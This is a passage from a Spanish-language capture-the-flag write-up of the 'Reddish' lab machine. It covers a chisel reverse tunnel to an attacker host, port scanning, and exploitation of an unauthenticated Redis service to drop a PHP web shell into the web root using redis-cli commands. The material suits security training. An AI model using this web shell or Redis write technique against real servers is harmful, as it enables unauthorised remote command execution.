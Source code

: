 ```bash
##Maquina victima
 ./chisel client 10.10.14.12:1234 R:127.0.0.1:6379:172.19.0.2:6379 R:127.0.0.1:80:172.19.0.3:80

 #Maquina atacante
 ./chisel server --reverse -p 1234
```

Obteniendo:

![Untitled](/assets/img/Reddish/Pasted image 20240327184400.png)

## `172.19.0.2` - `172.19.0.3`

Se procede a enumerar los puertos a través de `nmap`, obteniendo:

![Untitled](/assets/img/Reddish/Pasted image 20240327184900.png)

### Port 80 - `http`

Visitando el servicio web:

![Untitled](/assets/img/Reddish/Pasted image 20240327185159.png)

Inspeccionando el código fuente se obtiene una posible ruta:

![Untitled](/assets/img/Reddish/Pasted image 20240327185529.png)

### Redish Explotation

Se va a explotar el servicio de redish a traves de [Redis Remote Command Execution ≈ Packet Storm](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)

Se va a tratar de subir una consola `.php`

```php





<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>



```

> Para que la consola pueda ser subida correctamente se recomienda dejar tres saltos de línea al comienzo y final

Utilizando los comandos:

```bash
❯ redis-cli -h 127.0.0.1 flushall
OK
❯ cat shell.php | redis-cli -h 127.0.0.1 -x set crackit
OK
❯ redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
OK
❯ redis-cli -h 127.0.0.1 config set dbfilename "shell.php"
OK
❯ redis-cli -h 127.0.0.1 save
OK
```
